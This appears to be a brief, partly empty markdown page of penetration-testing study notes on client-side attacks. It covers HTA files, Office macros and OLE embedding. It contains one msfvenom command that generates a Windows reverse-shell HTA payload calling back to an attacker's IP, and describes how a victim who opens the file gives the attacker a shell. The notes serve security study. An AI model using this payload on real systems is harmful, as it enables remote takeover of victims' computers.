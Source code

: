 ```yaml
---
title: Client-Side Attacks
---
```


Require client interaction for client software to execute malicious code.

## Know Your Target

### Passive Client Information Gathering





##  HTA Attack

Generate html file

```bash
sudo msfvenom -p windows/shell_reverse_tcp LHOST=<hacker ip> LPORT=<PORT> -f hta-psh -o /var/www/html/evil.hta 
```

When client open this html and click allow,  powershell on victim's machine is launched silently and a reverse shell will be sent back to attacker.



## Exploiting Microsoft Office

Use macro to execute powershell code to create a rever shell.

## Object Linking and Embedding

